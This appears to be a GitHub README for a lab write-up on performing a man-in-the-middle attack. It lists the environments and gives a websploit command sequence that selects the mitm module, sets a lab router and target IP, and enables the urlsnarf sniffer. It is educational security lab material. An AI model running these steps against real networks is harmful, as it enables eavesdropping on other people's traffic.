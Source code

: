 <h1>Performing a MITM Attack</h1>


<h2>Description</h2>
In this lab, I learned to perform a MITM attack. MITM (man-in-the-middle) is an eavesdropping attack that occurs whenever a malicious user behaves as a proxy in a communication session.
<br />



<h2>Environments Used </h2>

- <b>Windows Server 2016 Standard</b> 
- <b>Linux VNC-Viewer</b>
- <b>Windows 8 Remote Desktop</b>
- <b>Terminal</b>

<h2>Program walk-through:</h2>

<p align="center">
From the desktop select the "Linux" icon in the top right: <br/>
<img src="https://i.postimg.cc/pLg7bbkK/Screen-Shot-2022-08-26-at-7-01-17-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />
  
  
  
<br />
In the authentication dialog box type in the password and click ok <br/>
<img src="https://i.postimg.cc/NM0RdLTD/Screen-Shot-2022-08-26-at-7-03-13-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />
  
  
  
  
<br />
In the VNC Viewer window go to terminal and type the following commands:  <br/>
1. su - <br/>
2.(enter password) <br/>
3. websploit <br/>
4. show modules <br/>
5. use network/mitm <br/>
6. show options <br/>
7. set interface eth0 <br/>
8. set router 192.168.137.1 <br/>
9. set target 192.168.137.7 <br/>
10. set sniffer urlsnarf <br/>
11. run <br/>
<img src="https://i.postimg.cc/qvT4f5wh/Screen-Shot-2022-08-26-at-7-12-00-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />




<br />
Minimize the Linux VNC window and then from the desktop open up Windows 8: <br/>
<img src="https://i.postimg.cc/cJcJ5SNL/Screen-Shot-2022-08-26-at-7-13-35-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />
